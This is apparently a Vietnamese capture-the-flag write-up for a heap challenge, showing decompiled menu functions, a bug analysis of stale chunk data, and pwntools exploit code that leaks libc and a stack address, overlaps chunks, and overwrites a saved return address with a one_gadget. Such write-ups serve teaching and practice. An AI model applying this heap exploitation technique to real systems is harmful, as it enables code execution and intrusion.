





# IDA
## create()
```c
int create()
{
  int index; // [rsp+Ch] [rbp-4h]

  index = get_index();
  if ( index == -1 )
    return puts("That bai!");
  table[index] = malloc(0x18uLL);
  printf("Mo ta:\n> ");
  fgets((char *)(table[index] + 8LL), 8, stdin);
  return puts("Xong!");
}
```
## destroy
```c
int destroy()
{
  int index; // [rsp+Ch] [rbp-4h]

  index = get_index();
  if ( index == -1 )
    return puts("That bai!");
  if ( !table[index] )
    return puts("Khong ton tai kho!");
  if ( *(_QWORD *)table[index] )
    free(*(void **)table[index]);
  memset((void *)table[index], 0, 0x18uLL);
  free((void *)table[index]);
  table[index] = 0LL;
  return puts("Xong!");
}
```
## append
```c
unsigned __int64 append()
{
  void **v0; // rbx
  int index; // [rsp+0h] [rbp-30h]
  int v3; // [rsp+4h] [rbp-2Ch]
  void *ptr; // [rsp+8h] [rbp-28h]
  char s[8]; // [rsp+10h] [rbp-20h] BYREF
  unsigned __int64 v6; // [rsp+18h] [rbp-18h]

  v6 = __readfsqword(0x28u);
  index = get_index();
  if ( index == -1 )
  {
    puts("That bai!");
  }
  else if ( table[index] )
  {
    puts("Kich thuoc?");
    printf("> ");
    fgets(s, 8, stdin);
    v3 = atoi(s);
    if ( v3 >= 0 )
    {
      ptr = malloc(v3);
      fread(ptr, 1uLL, v3, stdin);
      if ( (unsigned __int64)v3 > *(_QWORD *)(table[index] + 16LL) )
      {
        v0 = (void **)table[index];
        *v0 = realloc(*v0, v3);
        *(_QWORD *)(table[index] + 16LL) = v3;
      }
      memcpy(*(void **)table[index], ptr, v3);
      free(ptr);
      puts("Xong!");
    }
    else
    {
      puts("That bai!");
    }
  }
  else
  {
    puts("Khong ton tai kho!");
  }
  return __readfsqword(0x28u) ^ v6;
}
```
## show
```c
int show()
{
  int index; // [rsp+4h] [rbp-Ch]

  index = get_index();
  if ( index == -1 )
    return puts("That bai!");
  if ( !table[index] )
    return puts("Khong ton tai kho!");
  if ( !*(_QWORD *)table[index] )
    return puts("Kho rong!");
  fwrite(*(const void **)table[index], 1uLL, *(_QWORD *)(table[index] + 16LL), stdout);
  return putchar(10);
}
```
## Phân tích

- Khi một chunk được tạo, thì chỉ có description, còn buf_address và buf_size thì được thêm sau khi append.
- Và khi append sẽ kiểm tra size mới có lớn hơn buf_size đã có không, nếu lớn hơn nó sẽ malloc một chunk lớn hơn khác, nếu bé hơn thì nó sẽ sửa lại data của chunk cũ.
- Đến đây thì mình có ý tưởng làm sao để ghi buf_address thành một địa chỉ khác, got chẳng hạn thành one_gadget
- Và khi create(), chương trình không xoá data của chunk cũ nên có thể có các data cũ
- Thông qua bug của create() ta có hướng khai thác như sau
  - setup buf_address thành địa chỉ của 1 trong các got, free_hook, malloc_hook, stack chứa ret
  - ow bằng one_gadget
- ow got khá khó vì thường không leak được elf base, free_hook, malloc_hook và stack chứa ret đều có thể (leak stack bằng biến environ)
- Mình khai thác theo hướng ow chứa ret
## Khai thác
### Chuẩn bị
```python
def taokho(pos, des):
    sla(b"> ", b"1")
    sla(b"> ", str(pos).encode())
    sla(b"> ", des)
def xoakho(pos):
    sla(b"> ", b"2")
    sla(b"> ", str(pos).encode())
def morong(pos, size, des):
    sla(b"> ", b"3")
    sla(b"> ", str(pos).encode())
    sla(b"> ", str(size).encode())
    s(des)
def kiemtra(pos):
    sla(b"> ", b"4")
    sla(b"> ", str(pos).encode())
```
### Leak libc, stack bằng environ
- Để leak được libc thì mình thường thông qua unsorted bin
```python
taokho(0, b"0" * 6)
morong(0, 0x500, b"a" * 0x500)
taokho(2, b"0" * 6)
kiemtra(2)
```


- Ở đây mình thấy size khá lớn, và nó có thể leak được stack.
- Do mình tính mãi không đúng được offset nên mình dùng cách tính từ từ =)))
- Trên server mình thấy nó -2 byte so với lúc chạy local
```python
leak_libc = u64(p.recv(8))
libc.address = leak_libc - 0x1ed000
leak = p.recv(0x1000)
leak = p.recv(0x1000)
leak = p.recv(0x400)
leak = p.recv(0x1e0)
leak = p.recv(18) # local
# leak = p.recv(16) remote
leak = p.recv(8)
```
```python
p.recvuntil(b"Kiem tra kho")
stack = u64(leak)
info("stack: " + hex(stack))
info("leak libc: " + hex(leak_libc))
info("libc base: " + hex(libc.address))
xoakho(0) # 
```
- Khi này heap của mình như sau


### ow stack chứa ret
- Hiểu đơn giản thì giống với việc ow saved rip
```python
taokho(0, b'0' * 6)
morong(0, 8, b"a" * 8)
taokho(1, b'1'*6)
xoakho(0)
xoakho(1)
taokho(0, b'1' * 6)
taokho(1, b'1' * 6)
```

- Ta có thể thấy buf của chunk 0 chính là buf_address của chunk 1. Vậy là ta có thể setup buf_address của chunk thành stack chứa ret và trỏ đến địa chỉ đó để thay đổi.
- Ở đây mình đã thử một số địa chỉ ret
```python
morong(1, 0x8, p64(0))
morong(0, 0x8, p64(stack-0x120))
morong(1, 0x8, p64(libc.address+0xe3b01))
``` 